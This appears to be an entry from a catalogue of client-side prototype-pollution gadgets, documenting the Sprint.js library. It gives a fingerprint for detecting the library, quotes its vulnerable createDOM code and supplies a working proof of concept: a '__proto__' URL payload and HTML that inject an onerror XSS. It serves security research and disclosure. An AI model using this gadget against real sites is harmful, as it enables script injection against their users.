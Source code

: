 ## Sprint.js

URL: https://github.com/bendc/sprint

### JS Fingerprint
```
(typeof Sprint !== 'undefined')
```

### Vulnerable code fragment
https://github.com/bendc/sprint/blob/a220796dc6470cc928726a3f15192ca5389af36c/sprint.js#L58-L61
```js
  var createDOM = function(HTMLString) {
    var tmp = document.createElement("div")
    var tag = /[\w:-]+/.exec(HTMLString)[0]
    var inMap = wrapMap[tag]
    var validHTML = HTMLString.trim()
    if (inMap) {
      validHTML = inMap.intro + validHTML + inMap.outro
```

### PoC

```
?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/sprint/0.9.2/sprint.min.js"></script>
<script>
	Object.prototype.div = {intro: "<img/src/onerror=alert(1)>"}
</script>
<script>
	$("<div id=x>")
</script>
```